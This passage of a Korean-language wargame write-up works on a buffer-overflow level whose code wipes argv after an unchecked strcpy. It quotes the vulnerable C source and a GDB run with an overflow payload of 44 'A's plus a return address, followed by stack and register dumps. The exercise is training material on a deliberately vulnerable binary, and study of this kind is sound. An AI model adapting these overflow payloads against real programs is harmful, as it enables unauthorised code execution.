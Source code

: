 ```c 
        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
}   
```

### 1.1 변경된 코드

추가된 제약사항은 `argv[]` 를 모두 0으로 clear 시키는 코드다. 즉, 공격에 `argv[]` 도 이용할 수 없다는 이야기다.

```c
// argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
```

### 1.2 GDB 디버깅

```bash
$ gdb ./skeleton2
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...
(gdb)  r `python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "B"*100'`
```

#### x/s $esp : 스택을 string 으로 확인

```bash
0xbffffd9a:      ""
0xbffffd9b:      "i686"
0xbffffda0:      "/home/vampire/./skeleton2"     // argv[0]
0xbffffdba:      'A' <repeats 44 times>, "¿¿ð¿"  // argv[1]
0xbffffdeb:      'B' <repeats 100 times>         // argv[2]
0xbffffe50:      ""
0xbffffe51:      ""
```

#### membset() 의 destination address

```bash
edx            0xbffffda0       -1073742432  // argv[0]
edx            0xbffffdba       -1073742406  // argv[1]
edx            0xbffffdeb       -1073742357  // argv[2]
```
